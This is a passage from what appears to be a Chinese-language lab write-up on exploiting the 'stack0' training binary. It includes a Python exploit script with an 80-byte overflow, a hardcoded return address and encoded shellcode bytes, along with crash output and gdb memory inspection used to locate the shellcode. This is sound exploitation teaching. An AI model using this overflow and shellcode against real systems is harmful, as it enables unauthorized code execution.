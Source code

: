```
print input
os.system("echo '%s' | ./stack0" % input)
-----------------------end-----------------------------

```

尝试通过shellcode前面加上标志"bbbb"找出shellcode在内存中的固定地址，其中上面jmp_esp的值为随意填写的一个

```
python exploit.py
--------------output:-----------------
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�H��bbbbH1����H���H�Sݧ����H1X'H-����9ȋR���W����'������
                              V�ͮ���Mŷ�ĭ�
                                        ��?�M   o����(MĂ��]o�
you have changed the 'modified' variable
Segmentation fault (core dumped)
----------------end-------------------

gdb -q -c core
---------------output:------------------
[New LWP 24384]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xa08748ff in ?? ()
-----------------end--------------------

x/10x $esp
----------output:-----------
0xffd26180:     0x62626262      0x48c93148      0xfff6e981      0x8d48ffff
0xffd26190:     0xffffef05      0x53bb48ff      0xa29ca7dd      0x4805be89
0xffd261a0:     0x2d485831      0xfffffff8
-----------end--------------

```

由此看出shellcode在内存的地址应该写成0xffd26180,也即jmp_esp="\x80\x61\xd2\xff",并将"bbbb"换成"\x90"*9,修改exploit.py如下：

```
--------------------exploit.py-------------------
#/usr/bin/python
import os
import sys

buf =  "\x90"*9
buf += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\x53\xdd\xa7\x9c\xa2\x89\xbe"
buf += "\x05\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x39\xf4\xff\x05\xc8\x8b\xe1\x6f\x52\x83\xa8\x99\xea"
buf += "\x1e\xec\xc2\x57\xf9\xa5\x9c\xaa\x27\xf6\x8c\xb5\xb7"
buf += "\xb7\xc6\xc8\xb8\xe6\x0a\x56\x84\xcd\xae\xfa\x86\xbb"
buf += "\x4d\xc5\xb7\x8c\xc4\xad\x8c\xee\x53\x0c\xb7\xae\xc4"
buf += "\x3b\x3f\xae\x4d\xda\x0b\xea\xad\x6b\xe3\x9c\x44\x09"
buf += "\x6f\xa0\x93\xa7\xc1\x28\x4d\xc4\x82\xa8\x99\x5d\x6f"
buf += "\xbe\x05"

jmp_esp="\x80\x61\xd2\xff"
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
----------------------end------------------------

```

